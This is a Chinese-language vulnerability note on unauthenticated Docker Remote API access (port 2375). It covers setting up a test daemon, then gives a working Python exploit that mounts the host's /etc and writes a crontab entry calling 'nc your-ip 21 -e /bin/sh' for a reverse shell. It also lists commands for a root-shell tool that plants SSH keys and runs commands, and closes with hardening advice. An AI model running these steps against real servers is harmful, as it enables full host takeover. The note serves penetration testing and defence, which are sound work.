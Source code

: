 Docker 未授权访问
=================

一、漏洞简介
------------

#### 1. 基础介绍

http://www.loner.fm/drops/\#\#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker
host工具，使用标准的Docker
API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker
节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page
not found ，然后他研究了下，发现这是 Docker Remote
API，可以执行docker命令，比如访问 http://host:2375/containers/json
会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps
的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想
swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2. 测试环境配置

先关闭docker，然后开启：

    sudo service docker stop
    # 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
    sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/\#\#client-api

二、影响范围
------------

三、复现过程
------------

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

    import docker

    client = docker.DockerClient(base_url='http://your-ip:2375/')
    data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})

写入crontab文件，成功反弹shell：![](./resource/Docker未授权访问/media/rId26.png)

#### python脚本

https://github.com/ianxtianxt/docker\_api\_vul

-   安装类库    `pip install -r requirements.txt`

-   查看运行的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`

-   查看所有的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`

-   查看所有镜像    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`

-   查看端口映射    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`

-   写计划任务（centos,redhat等,加-u参数用于ubuntu等）    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`

-   写sshkey(自行修改脚本的中公钥)    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`

-   在容器中执行命令    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e  "id" -I 容器id`

-   删除容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`

-   修改client api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`

-   查看服务端api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exphttps://github.com/zer0yu/SomePoC/blob/master/Docker/Docker\_Remote\_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.pyhttps://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4. 防护策略

-   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker
    服务才能生效。

-   2.修改 Docker 的启动参数：    定位到 DOCKER\_OPTS 中的
    tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1    或将默认端口 2375 改为自定义端口    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

-   3.注意：该操作需要重启 Docker 服务才能生效。    修改 Docker 服务运行账号。请以较低权限账号运行 Docker
    服务；另外，可以限制攻击者执行高危命令。

-   4.注意：该操作需要重启 Docker 服务才能生效。    设置防火墙策略。如果正常业务中 API
    服务需要被其他服务器来访问，可以配置安全组策略或 iptables
    策略，仅允许指定的 IP 来访问 Docker 接口。
